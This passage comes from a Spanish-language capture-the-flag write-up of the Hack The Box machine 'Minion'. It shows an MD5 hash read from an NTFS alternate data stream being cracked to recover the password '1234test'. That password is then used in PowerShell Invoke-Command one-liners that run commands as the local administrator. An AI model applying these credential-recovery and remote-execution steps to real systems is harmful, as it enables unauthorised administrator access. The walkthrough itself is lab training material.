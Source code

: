Vemos que el archivo `backup.zip` tiene una `ADS` pass, asi que leemos el contenido y encontramos un hash en `md5`.

```cmd
type C:\Temp\backup.zip:pass
28a5d1e0c15af9f8fce7db65d75bbf17
```

Lo crackeamos usando nuestra pagina de confianza y obtenemos una contraseña.

* [https://crackstation.net/](https://crackstation.net/)


![](/assets/images/HTB/htb-writeup-Minion/mini13.PNG)

Si bien contamos con credenciales, no podemos conectarnos con `evil-winrm` o con `psexec` debido a que solo vemos abierto el puerto `62696`, pero podemos hacer uso de `PSCredential` y ejecutar un comando a traves de `ScriptBlock`.


```cmd
hostname
minion

        $user = 'minion\Administrator'; $pass = '1234test'; $secPass = ConvertTo-SecureString $pass -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPass; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami } 
minion\administrator
```

Ahora podriamos tratar de ejecutar leer la segunda flag, vemos que antes tenemos que ejecutar el `root.exe`, pero curiosamente no podemos hacerlo desde aqui.

```cmd
        $user = 'minion\Administrator'; $pass = '1234test'; $secPass = ConvertTo-SecureString $pass -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPass; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { type C:\Users\Administrator\Desktop\root.txt }
In order to get the flag you have to launch root.exe located in this folder!

        $user = 'minion\Administrator'; $pass = '1234test'; $secPass = ConvertTo-SecureString $pass -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential $user,$secPass; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { C:\Users\Administrator\Desktop\root.exe }
Are you trying to cheat me?
```
